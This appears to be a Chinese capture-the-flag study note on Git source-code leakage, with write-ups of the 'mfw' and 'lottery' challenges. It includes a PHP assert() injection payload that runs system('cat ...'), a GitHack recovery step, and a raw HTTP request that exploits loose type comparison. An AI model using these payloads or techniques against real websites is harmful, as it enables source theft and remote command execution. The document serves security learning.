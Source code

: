 全文参考link  
https://www.cnblogs.com/linfangnan/p/13600490.html#%E4%BE%8B%E9%A2%98%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C-mfw
#目录#
- Git
- 源码泄露
- 确定是否存在泄漏
- 获取泄露的源码
- 例题：攻防世界-lottery
- 例题：攻防世界-mfw
- 例题：JMUCTF-leak_snake
#Git 源码泄露#
开发人员会使用 git 进行版本控制，对站点自动部署。但如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞，我们可以利用这个漏洞直接获得网页源码。
![](https://img2020.cnblogs.com/blog/1774310/202009/1774310-20200903092828683-738183607.png)
#确定是否存在泄漏#
想要确定是否存在这个漏洞，可以通过以下方式。首先是看看有没有提示醒目地指出 Git，如果有就考虑存在。如果没有也可以使用 dirsearch 工具扫描后台，如果存在则会扫描出 .git 目录如图所示。

当然也可以直接通过网页访问 .git 目录，如果能访问就说明存在。
![](https://img2020.cnblogs.com/blog/1774310/202009/1774310-20200902111806216-767273290.png)
也可以试着访问 .git/head 文件，如果能下载也能推断存在 Git 源码泄露。
![](https://img2020.cnblogs.com/blog/1774310/202009/1774310-20200902112040701-1263212087.png)

#获取泄露的源码#
要获取泄露的源码，可以使用 GitHack 工具，下载地址。GitHack 是一个 .git 泄露利用脚本，通过泄露的 .git 文件夹下的文件重建还原工程源代码。在 cmd 命令下键入下面的命令，脚本就会把存在 Git 泄露的源码全部下载下来。
    GitHack.py <url>
![](https://img2020.cnblogs.com/blog/1774310/202009/1774310-20200902112354245-358955868.png)

#例题：攻防世界-mfw#
获取源码后，打开 index.php 文件得到题目的源码，源码会接收一个 page 参数。

    <?php
    
    if (isset($_GET['page'])) {
    	$page = $_GET['page'];
    } 
    else {
    	$page = "home";
    }
    
    $file = "templates/" . $page . ".php";
    
    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
    
    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");
    
    ?>

输出 flag 要满足以下 2 句代码，注意到第二句代码是个 assert() 断言，它可以将参数作为代码来执行。

    $file = "templates/" . $page . ".php";
    assert("strpos('$file', '..') === false")

因此我们考虑让断言执行 cat 命令，直接回显目录下的 flag.php 文件，这样就能看到其中的内容了。构造出的 payload 如下，上传得到 flag。

    ?page=abc') or system("cat templates/flag.php");//

这个参数和上述的 file 变量替换，等同于执行了以下代码。首先因为网页不存在 abc 页面，所以使用 strpos() 函数会返回 false，因此代码会执行 or 后面的 system() 函数。最后认为添加个注释，让后面的代码不要执行。

    assert("strpos('templates/?page=abc') or system("cat templates/flag.php");//.php', '..') === false")

##这里存在疑问：##
语句执行system的时候，和assert语句中")怎么对应，感觉少了")

#第二题#
#攻防世界-lottery#
表面上看上去是要中了大奖，然后买flag

1. 用御剑扫描网站，发现有robots.txt

里面内容是:

    User-agent: *
    Disallow: /.git/
猜测是git源码泄露

2. 观察api.php中函数，发现

       for($i=0; $i<7; $i++){
    		
           if($numbers[$i] == $win_numbers[$i]){
    			$same_count++;
    		}
    其中我们看到 numbers 这个变量是我们能操作的，函数会以数组的形式提取每位数字。同时这个变量在和随机生成的 win_numbers 变量比较时使用的是 “==”，也就是说可以用弱类型来绕过。
3. 由于随机变量是数字，因此我们可以使用 true 来满足比较，但是我们显然不能在输入框输入 7 个 “true”。因此我们考虑修改数据包，通过抓包发现数据的传输是通过传一个映射来上传的。
4. 顶顶顶

    POST /api.php HTTP/1.1
    Host: 111.200.241.244:52260
    Content-Length: 36
    Accept: application/json, text/javascript, */*; q=0.01
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
    Content-Type: application/json
    Origin: http://111.200.241.244:52260
    Referer: http://111.200.241.244:52260/buy.php
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: PHPSESSID=41d2992c7047d7d1ba61ab0e3a6402d6
    Connection: close
    
    {"action":"buy","numbers":"1111111"}

改为
    `{"action":"buy","numbers":[true,true,true,true,true,true,true]}`

5. 其中 $numbers 来自用户json输入 {"action":"buy","numbers":"1122334"}，没有检查数据类型。 $win_numbers 是随机生成的数字字符串。
使用 PHP 弱类型松散比较，以"1"为例，和TRUE,1,"1"相等。 由于 json 支持布尔型数据，因此可以抓包改包，

当**每一位中奖号码都不是0时**即可中最高奖，攒钱买flag。


